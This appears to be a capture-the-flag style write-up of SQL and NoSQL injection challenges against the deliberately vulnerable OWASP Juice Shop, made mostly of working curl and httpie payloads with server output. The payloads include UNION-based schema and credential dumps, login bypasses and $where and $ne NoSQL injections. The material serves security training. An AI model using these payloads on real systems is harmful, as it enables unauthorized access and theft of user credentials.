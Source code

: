 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)
* [NoSQL injection](https://portswigger.net/web-security/nosql-injection)

## Reconnaissance

Intercept all requests and look for a request with parameters to fuzz
```bash
# verify vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Christmas Special

Order the Christmas special offer of 2014

```bash
# find ProductId=10
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

TOKEN="<REDACTED>"

curl http://juiceshop:3000/api/BasketItems/ \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"ProductId":10,"BasketId":"6","quantity":1}'
```

## Database Schema

Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns, add N static columns in order to match them and fix
# "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Ephemeral Accountant

Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user

```bash
# trigger error
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

# add static user to result
http http://juiceshop:3000/rest/user/login email="' UNION SELECT 999,'myUsername','acc0unt4nt@juice-sh.op','myPassword','accounting','','0.0.0.0','','','1','2023-10-28 15:47:25.395 +00:00','2023-10-28 15:47:25.395 +00:00','NULL' FROM Users'--"
```

## Login Admin

Log in with the administrator's user account

```bash
http http://juiceshop:3000/rest/user/login email="admin@juice-sh.op'--"
```

## Login Bender

Log in with Bender's user account

```bash
http http://juiceshop:3000/rest/user/login email="bender@juice-sh.op'--"
```

## Login Jim

Log in with Jim's user account

```bash
http http://juiceshop:3000/rest/user/login email="jim@juice-sh.op'--"
```

## NoSQL DoS

Let the server sleep for some time

```bash
# parameter is executed before being compared
# https://github.com/juice-shop/juice-shop/blob/master/routes/showProductReviews.ts
http "juiceshop:3000/rest/products/sleep(1000)/reviews"
```

## NoSQL Exfiltration 

All your orders are belong to us

```bash
# $where evaluates JavaScript, by default server-side scripting is enabled
# https://github.com/juice-shop/juice-shop/blob/master/routes/trackOrder.ts
http "juiceshop:3000/rest/track-order/1'||true||'"
```

## NoSQL Manipulation

Update multiple product reviews at the same time

```bash
TOKEN="<REDACTED>"

curl http://juiceshop:3000/rest/products/reviews \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"id":{"$ne":"1"},"message":"bar"}'
```

<!--
## SSTi

Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```
-->

## User Credentials

Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
